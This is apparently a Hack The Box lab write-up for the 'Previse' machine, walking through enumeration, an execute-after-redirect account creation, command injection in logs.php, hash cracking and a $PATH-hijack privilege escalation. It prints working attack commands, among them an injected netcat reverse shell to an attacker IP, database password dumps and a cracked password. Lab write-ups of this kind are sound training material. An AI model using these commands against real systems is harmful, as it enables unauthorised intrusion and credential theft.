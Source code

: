 > Author: **[m4lwhere][author-profile]**

## Discovery

Alright, let's get start with nmap and gobuster:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
```

```bash
gobuster dir -u 10.10.11.104 -w /usr/share/wordlists/discovery/raft-small-directories.txt -x php
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 2224]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/files.php            (Status: 302) [Size: 6072] [--> login.php]
/logs.php             (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/nav.php              (Status: 200) [Size: 1248]
/header.php           (Status: 200) [Size: 980]
/footer.php           (Status: 200) [Size: 217]
/status.php           (Status: 302) [Size: 2970] [--> login.php]
/server-status        (Status: 403) [Size: 277]
```

Browsing the website leads to a login page. Since it is hardened agains SQLi
(Sqlmap fails too) and we have no clues yet, we need to find another way in.

Going over all the discovered pages, they all redirect to `login.php` except
`config.php` and `accounts.php`.

Actually Burpsuite captures a response body on `accounts.php`, before jumping
to the login page.

This page allows to create a new account, there's a html form for user input.
We can directly send a POST request with the matching parameters:

```bash
curl -i -s -k -X $'POST' --compressed \
    -H $'Host: 10.10.11.104' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -H $'Accept-Encoding: gzip, deflate' \
    -b $'PHPSESSID=as7pqom59hgv01jml1bnapfvap' \
    --data-binary $'username=heyhey&password=lolololololo&confirm=lolololololo' \
    $'http://10.10.11.104/accounts.php'
```

Which creates a new user: we can now log on the webpage.

## Break-in

Once logged in, the "files" tab immediately draws attention:

- there's a "siteBackup.zip", which can be downloaded
- it is possible to upload files
- the file IDs are sequential: `http://10.10.11.104/download.php?file=32`

While it is tempting to upload a reverse shell, it would end-up stored in
the database, which prevents us to browse / execute it.

Rather, the backup contains the PHP source files of the site, full of informations!

Most interesting is `logs.php`: it uses exec to launch a python script with
user input as argument!

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

Normally the logs page is queried by `file_logs.php` via POST. Using Burpsuite,
we can submit the form and capture the request.

Then we inject a reverse shell in the POST parameter:

```bash
curl -i -s -k -X $'POST' --compressed \
    -H $'Host: 10.10.11.104' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -H $'Accept-Encoding: gzip, deflate' \
    -b $'PHPSESSID=as7pqom59hgv01jml1bnapfvap' \
    --data-binary $'delim=;nc 10.10.16.30 9876 -e /bin/bash' \
    $'http://10.10.11.104/logs.php'
```

Spawn a TTY:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

We have a proper shell, as "www-data".

## Lateral movement

As www-data, we can browse the current site's source files and database.

Indeed, the backup has the database credentials in `config.php`:

```php
$host = 'localhost';
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
```

Which can be used with the client:

```bash
mysql -D'previse' -u'root' -p'mySQL_p@ssw0rd!:)' -e'show tables;'
mysql -D'previse' -u'root' -p'mySQL_p@ssw0rd!:)' -e'show columns from accounts;'
mysql -D'previse' -u'root' -p'mySQL_p@ssw0rd!:)' -e'select username,password from accounts;'
```

To find:

```
+----------+------------------------------------+
| username | password                           |
+----------+------------------------------------+
| m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. |
| heyhey   | $1$🧂llol$QeuLTO6nKr3dEF2IutDLL0 |
+----------+------------------------------------+

```

`accounts.php` is in charge of creating new users and hashing their password:

```php
$hash = crypt($password, '$1$🧂llol$');
```

The PHP documentation says that a salt starting with "$1" returns a MD5 hash.
The corresponding code in Hashcat is 500:

```bash
# $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
hashcat -a 0 -m 500 m4lwhere.hash /usr/share/wordlists/passwords/rockyou.txt
```

These credentials allow to connect as "m4lwhere" via ssh.

## Escalation

m4lwhere can execute `/opt/scripts/access_backup.sh` with root privileges. In
turn, it executes the following commands:

```bash
gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Here, we can alter the `$PATH` variable and point to a malicious date binary:

```bash
echo $'head -n1 /root/root.txt' > /tmp/date
chmod +x /tmp/date
PATH=/tmp:$PATH sudo /opt/scripts/access_backup.sh
ls -lah /var/backups/
```

The backup files are named after the root flag!

[author-profile]: https://app.hackthebox.eu/users/107145
